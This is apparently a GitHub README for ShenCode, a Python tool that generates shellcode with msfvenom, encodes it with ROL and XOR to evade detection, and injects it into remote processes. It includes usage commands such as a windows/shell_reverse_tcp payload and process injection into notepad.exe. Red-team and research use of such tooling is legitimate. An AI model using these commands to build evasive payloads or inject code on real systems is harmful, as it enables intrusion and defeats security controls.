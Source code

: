 # ShenCode

A multi purpose tool for shellcode operations

![](shencode-040.png)

## Features

### Version 0.4.0

- create
	- create shellcodes with msfvenom
- encode
	- search and replace ROR13 encoding with ROL
	- XOR encryption
- extract
	- extract shellcode from position x to y
- inject
	- inject shellcode into a remote process
- output
	- raw shellcode to file
	- formatting options: `C++, C#, C-ASM, PS, PY, HEX`
	- output in console windows
	- output in template

## ToDo

- `pip install requirements.txt`
- automatical compile feature
- integrate more frameworks
- integrate more encoder
- Use PATH for better msfvenom integration

## How to use

### create shellcode

`python shencode.py create --cmd="-p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4443 -f raw -o payload.bin"`
### encode shellcode

#### ROR13 to ROL

`python shencode.py encode --filename sc-120824-120101.bin --outputfile shell.enc --key 33`

#### XOR

`python shencode.py encode --filename shell.raw --outputfile shell.enc --xor --xorkey 96`

### extract shellcode

`python shencode.py extract --filename bin.o --outputfile shell.raw --first-byte 6 --last-byte 128`
### inject shellcode

`python shencode.py inject --filename calc.raw --processname notepad.exe --startprocess`
### output in different styles

#### console output

`python shencode.py -o {c, casm, cs, ps1, py, hex} <commands>`

Check [this repository](https://github.com/psycore8/bin2shellcode) for more information regarding the output.

#### write output to a template file

`python shencode.py output --filename inputfile --write templatefile --syntax c`

This command replaces a `!++BUFFER++!` placeholder in the given file e.g.

```cpp
unsigned char buf[] =
!++BUFFER++!
```

will be replaced by the generated shellcode

```cpp
unsigned char buf[] =
"\x90\x01\..\xff";
```

## Config

Please change the metasploit path in line 10. This will be fixed in the future.

`msfvenom_path = "c:\\metasploit-framework\\bin\\msfvenom.bat"`

## Parameter


| **Command** | **Subcommand** | **Short** | **Description**                                                                       |     |
| ----------- | -------------- | --------- | ------------------------------------------------------------------------------------- | --- |
| create      |                |           | create a shellcode using msfvenom                                                     |     |
|             | --cmd          | -c        | msfvenom command line, use quotation marks and equal sign e.g --cmd=\"-p ...\"        |     |
| encode      |                |           | Shellcode encoding                                                                    |     |
|             | --filename     | -f        | raw input file with shellcode                                                         |     |
|             | --ror2rol      | -r        | encode windows function hashes to ROL                                                 |     |
|             | --key          | -rk       | ROL key for encoding                                                                  |     |
|             | --xor          | -x        | use additional XOR encoding                                                           |     |
|             | --xorkey       | -xk       | XOR key for encoding                                                                  |     |
|             | --decompile    |           | decompile modified bytes                                                              |     |
|             | --showmod      |           | display modifications                                                                 |     |
| extract     |                |           |                                                                                       |     |
|             | --filename     | -f        | binary input file                                                                     |     |
|             | --outputfile   | -o        | name of the outputfile                                                                |     |
|             | --first-byte   | -fb       | first byte to extract                                                                 |     |
|             | --last-byte    | -lb       | last byte to extract                                                                  |     |
| inject      |                |           | inject shellcode                                                                      |     |
|             | --filename     | -f        | raw input file with shellcode to inject                                               |     |
|             | --processname  | -p        | process name to inject                                                                |     |
|             | --startprocess | -s        | if set, process will be started                                                       |     |
| output      |                |           | create formatted output by filename                                                   |     |
|             | --filename     | -f        | raw input file with shellcode                                                         |     |
|             | --syntax       | -s        | formatting the shellcode in C, Casm, C#, Powershell, python or hex                    |     |
|             | --write        | -w        | write output to the given filename (replacing  `!++BUFFER++!` placeholder in the file |     |
| --output    |                |           | formatting the shellcode in C, Casm, C#, Powershell, python or hex                    |     |

## References

- [Function Name Hashing](https://www.bordergate.co.uk/function-name-hashing/)
- [Win32API with python3 injection](https://systemweakness.com/win32api-with-python3-part-iii-injection-6dd3c1b99c90)
- [Violent python: XOR Encryption](https://samsclass.info/124/proj14/VPxor.htm)
- [How to easily encrypt file in python](https://www.stackzero.net/how-to-easily-encrypt-file-in-python/)
